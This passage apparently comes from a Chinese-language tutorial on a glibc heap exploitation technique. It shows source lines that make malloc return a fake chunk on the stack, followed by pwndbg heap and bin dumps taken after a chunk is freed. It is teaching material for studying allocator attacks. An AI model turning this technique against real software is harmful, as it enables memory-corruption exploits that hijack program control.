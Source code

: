 ```
 ► 29   fprintf(stderr, "Now next malloc will return the region of our fake chunk: %pn", &amp;stack_buffer[2]);


 ► 30   fprintf(stderr, "malloc(0x100): %pn", malloc(0x100));
   31 `}`
```

好了,下面开始运行一下,先分配两个指针

```
pwndbg&gt; heap
0x602000 PREV_INUSE `{`
  prev_size = 0,
  size = 273,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
`}`
0x602110 PREV_INUSE `{`
  prev_size = 0,
  size = 273,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
`}`
0x602220 PREV_INUSE `{`
  prev_size = 0,
  size = 134625,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
`}`
pwndbg&gt; p/x stack_buffer
$1 = `{`0x0, 0x0, 0x0, 0x0`}`
pwndbg&gt; p/x &amp;stack_buffer
$2 = 0x7fffffffe5b0
```

之后我们free掉victim,此时

```
pwndbg&gt; bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x602000 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x602000
smallbins
empty
largebins
empty
```
